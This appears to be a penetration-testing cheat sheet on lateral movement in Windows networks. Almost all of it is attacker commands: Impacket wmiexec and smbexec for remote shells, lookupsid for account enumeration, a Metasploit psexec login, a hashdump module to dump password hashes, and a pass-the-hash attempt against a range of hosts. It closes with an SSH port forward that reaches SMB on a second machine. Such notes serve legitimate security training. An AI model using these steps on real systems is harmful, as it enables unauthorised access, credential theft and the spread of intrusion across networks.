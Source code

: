 # Lateral Movement

## Impacket
### wmiexec.py
`wmicexec.py` connects to DCOM ports (i.e., the WMI service) on the target. 
```bash
# attacker Terminal 1:
wmiexec.py john@target whoami     # specify a single command to run
wmiexec.py john@target            # invoke a semi-interactive shell
```

### smbexec.py
`smbexec.py` connects to SMB ports on the target. 
```bash
# attacker Terminal 1:
smbexec.py john@target            # invoke a semi-interactive shell
# use the full-path to change directories
```

### lookupsid.py 
`lookupsid.py` enumerates local and domain accounts (i.e., their RIDs and usernames). 
```bash
# attacker Terminal 1:
lookupsid.py 192.168.1.69              # use an anonymous/null session
lookupsid.py john@192.168.1.69         # use a local account
lookupsid.py evilcorp/elliot@192.168.1.5 # use a domain account on a domain controller
```

## Pass-the-Hash
### Metasploit and PsExec 
Login to target 1 using `exploit/windows/smb/psexec`. 
```bash
# attacker Terminal 1:
msfconsole 
use exploit/windows/smb/psexec
set SMBDOMAIN evilcorp
set SMBUSER john
set SMBPASSWORD Password123!
set RHOST 192.168.1.69
options
run
```

Change exploits to `post/windows/gather/hashdump` and dump the hashes stored in memory.
```bash
# attacker Terminal 1: (after a shell has been opened)
background                       # put the SMB session in the background
use post/windows/gather/hashdump # change exploits
set SESSION 1                    # configure your exploit to use the SMB session in the background
options                          # check your exploit settings
run                              # dumps password hints and hashes
```

Attempt to login to other targets previously identified using one of the usernames and hashes you just dumped. 
```bash
use exploit/windows/smb/psexec
set SMBDOMAIN evilcorp
set SMBUSER elliot
set SMBPASSWORD 1a8d397270a1c210c7de787d4d082cf4
set RHOSTS 192.168.1.61,62,63,64,65,66,67,68,69
options
run
```

## SSH
```bash
# attacker Terminal 1:
# any connections to port 4444 on .69 get forwarded to port 445 on .5
ssh john@192.168.1.69 -L 4444:192.168.1.5:445
```